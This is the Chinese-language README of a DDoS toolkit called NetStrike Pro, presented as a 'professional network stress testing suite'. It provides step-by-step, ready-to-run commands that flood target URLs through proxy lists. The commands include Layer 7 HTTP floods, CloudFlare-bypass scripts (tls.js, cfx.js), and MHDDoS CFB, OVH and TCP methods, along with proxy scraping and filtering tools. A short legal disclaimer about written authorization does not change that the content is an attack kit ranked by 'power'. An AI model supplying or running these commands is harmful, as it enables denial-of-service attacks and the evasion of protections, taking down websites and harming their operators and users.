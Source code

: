# 🎯 NetStrike Pro（网击专业版）

**专业网络压力测试套件** | **版本 5.0.0 Ultimate Edition**

> ⚠️ **重要**: 本工具仅供合法授权的安全测试使用！

---

## ✨ 项目特色

### 🎯 双轨方案

**1. 原有工具**（`legacy/` 目录）⭐ 推荐
- ✅ **立即可用** - 无需配置
- ✅ **功能完整** - 60+ 种攻击方法
- ✅ **经过验证** - 稳定可靠

**2. 新专业框架**（主目录）
- ✅ **现代 UI** - Rich 终端界面
- ✅ **双语支持** - 中文 + 英文
- ✅ **模块化** - 易于扩展

### 💪 核心优势

| 特性 | 说明 |
|------|------|
| **零破坏** | 所有原有工具 100% 保留 |
| **立即可用** | 无需迁移，直接使用 |
| **专业品牌** | NetStrike Pro 国际化名称 |
| **完整文档** | 8+ 个详细文档 |

---

## 🚀 快速开始

### 3 步开始测压

```bash
# 步骤 1: 进入工具目录
cd NetStrike-Pro/legacy

# 步骤 2: 刷新代理
./refresh_proxy.sh

# 步骤 3: 开始攻击（选择一个）
# 方式 A - CloudFlare 绕过（最强）
node 新建文件夹/tls.js https://目标.com 120 128 10 proxy_paid.txt

# 方式 B - 通用 HTTP 攻击
python3 cc.py -url https://目标.com -f proxy_paid.txt -v http -s 60

# 方式 C - MHDDoS 专用 Bypass
python3 mhddos/start.py CFB 0 https://目标.com 200 proxy_paid.txt 100 180
```

---

## 📁 目录结构

```
NetStrike-Pro/
├── START_HERE.md          ⭐ 从这里开始
├── legacy/                ⭐ 所有原有工具
│   ├── cc.py             ✅ Python CC 攻击
│   ├── cc/               ✅ Node.js 工具集
│   ├── mhddos/           ✅ MHDDoS 项目
│   ├── 新建文件夹/        ✅ tls.js, cfx.js, scrape.py
│   ├── 超高速筛选.py      ✅ 代理筛选
│   └── refresh_proxy.sh  ✅ 代理刷新
├── attack.py              新框架主入口
├── ui/                    Rich UI 模块
├── config/                配置系统
└── [其他框架文件]
```

---

## 📚 完整文档

### 必读文档

| 文档 | 说明 | 优先级 |
|------|------|--------|
| **START_HERE.md** | 快速开始 | ⭐⭐⭐⭐⭐ |
| **🎯 完整使用指南.md** | 详细教程 | ⭐⭐⭐⭐⭐ |
| **🌟 项目最终状态.md** | 项目说明 | ⭐⭐⭐⭐ |
| **法律声明.md** | 法律合规 | ⭐⭐⭐⭐⭐ |

### 技术文档

- `QUICKSTART.md` - 快速指南
- `README.md` - 框架概览（英文）
- `✅ 交付清单.md` - 交付内容
- `🎉 项目框架完成报告.md` - 技术报告
- `🎊 项目实施完成总结.md` - 完整总结

---

## 🎯 工具对比

| 工具 | 威力 | 适用场景 | 推荐度 |
|------|------|----------|--------|
| **tls.js** | ⭐⭐⭐⭐⭐ | CloudFlare 绕过 | ⭐⭐⭐⭐⭐ |
| **cc.py** | ⭐⭐⭐⭐ | 通用稳定 | ⭐⭐⭐⭐⭐ |
| **MHDDoS** | ⭐⭐⭐⭐⭐ | 专用 Bypass | ⭐⭐⭐⭐⭐ |
| **cfx.js** | ⭐⭐⭐⭐ | 快速测试 | ⭐⭐⭐⭐ |

---

## ⚠️ 法律声明

**使用前必须**:
- ✅ 拥有目标系统的书面授权
- ✅ 完整阅读 `法律声明.md`
- ✅ 理解并承担所有法律责任

**未经授权的测试是违法的，可能面临刑事起诉！**

---

## 💡 常用命令

```bash
# 代理管理
./refresh_proxy.sh                  # 刷新付费代理
python3 超高速筛选.py                # 筛选免费代理
python3 新建文件夹/scrape.py         # 抓取新代理

# Layer 7 HTTP 攻击
node 新建文件夹/tls.js https://目标.com 120 128 10 proxy_paid.txt
node 新建文件夹/cfx.js https://目标.com proxy_paid.txt 30
python3 cc.py -url https://目标.com -f proxy_paid.txt -v http -s 60

# MHDDoS 攻击
python3 mhddos/start.py CFB 0 https://目标.com 200 proxy_paid.txt 100 180
python3 mhddos/start.py OVH 0 https://目标.com 200 proxy_paid.txt 100 180
python3 mhddos/start.py TCP 目标IP:端口 200 180
```

---

## 🎨 体验新框架

```bash
# 安装 UI 依赖
pip3 install rich pyfiglet colorama PyYAML

# 测试框架
python3 attack.py --version
python3 attack.py --help

# 查看专业 UI（英文）
python3 -c "from ui.intro import show_intro; show_intro('en')"

# 查看专业 UI（中文）
python3 -c "from ui.intro import show_intro; show_intro('zh')"
```

---

## 🌟 项目状态

### ✅ 已完成

- ✅ **原有工具**: 100% 保留在 `legacy/` 目录
- ✅ **新框架**: 专业化架构完成
- ✅ **UI 系统**: Rich 终端界面
- ✅ **双语支持**: 中英文完整
- ✅ **文档系统**: 8+ 个详细文档

### ⏳ 可选扩展

- ⏳ 攻击方法集成到新框架
- ⏳ 代理系统集成
- ⏳ 目标检测系统
- ⏳ Web 界面开发

---

## 📞 需要帮助？

1. 查看 `START_HERE.md` - 快速开始
2. 查看 `🎯 完整使用指南.md` - 详细教程
3. 查看 `🌟 项目最终状态.md` - 项目说明

---

**NetStrike Pro** - 专业网络压力测试套件  
🎯 **双轨并行** | ✅ **100% 保留** | 💪 **立即可用**

版本 5.0.0 Ultimate Edition | © 2025

